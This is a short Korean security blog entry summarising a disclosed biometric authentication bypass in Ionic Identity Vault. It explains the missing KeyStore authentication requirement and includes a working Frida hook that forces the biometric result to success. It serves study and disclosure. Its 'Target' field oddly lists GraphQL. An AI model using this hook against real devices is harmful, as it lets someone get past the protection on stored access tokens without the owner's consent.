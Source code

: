 ```yaml
---

title: "[하루한줄] Ionic Identity Vault Biometric Authentication Bypass"

author: j0ker

tags: [j0ker, Ionic Identity Vault, authentication bypass, bypass, biometric] 

categories: [1day1line] 

date: 2021-09-11 14:00:00 

cc: true

index_img: /img/1day1line.png

---
```


## URL

https://blog.compass-security.com/2021/09/ionic-identity-vault-biometric-authentication-bypass/



## Target

-  GraphQL

  

## Explain

엑세스 토큰 같은 인증 정보를 저장하는데 사용되는 Ionic Identity Vault에서 생체인증 우회 취약점이 발견되었습니다.

먼저 유저가 데이터 접근 인증을 위해 생체인증을 활성화하게 되면 `automaticallyCreateKey` 메소드가 호출됩니다. 이 메소드에서는 `KeyGenParameterSpec.Builder` 메소드를 통해 새로운 KeyStore entry를 생성합니다. 이 과정에서 `setUserAuthenticationRequired` 메소드를 사용하지 않아 KeyStore entry는 사용될 때 사용자에게 생체인증을 요구하지 않게되고 인증 없이 사용될 수 있게 됩니다. 대신 다른 기능에서 이 기능을 대체합니다.

따라서 유저가 데이터 접근을 하게되면 생체인증을 위한 화면이 팝업되고 지문인식을 하면 loadKey 메소드가 호출됩니다. 이 과정 전에 `onBiometricActivityResult` 메소드가 호출되는데, 인증 결과를 첫 번째 인자로 받습니다. 인증 결과가 -1이면 인증에 성공하여 forceUnlock 메소드를 호출합니다.

KeyStore entry가 인증을 요구하지 않기 때문에, `onBiometricActivityResult` 메소드를 후킹해서 `onBiometricActivityResult`의 첫번재 인자를 -1로 세팅하여 인증을 우회할 수 있습니다.

```
Java.perform(function x() {
  var myclass = Java.use("com.ionicframework.auth.IonicNativeAuth");
  myclass.onBiometricActivityResult.implementation = function (a, b) {
    console.log("[*] Biometric Authentication Bypass Hook");
    console.log("Class: com.ionicframework.auth.IonicNativeAuth");
    console.log("  Method: onBiometricActivityResult");
    console.log("  Parameter: " + a);
    console.log("Change result from 0 to -1 in order to bypass authentication.");
    this.onBiometricActivityResult(-1, b); // This calls the method always with -1
  }
});
```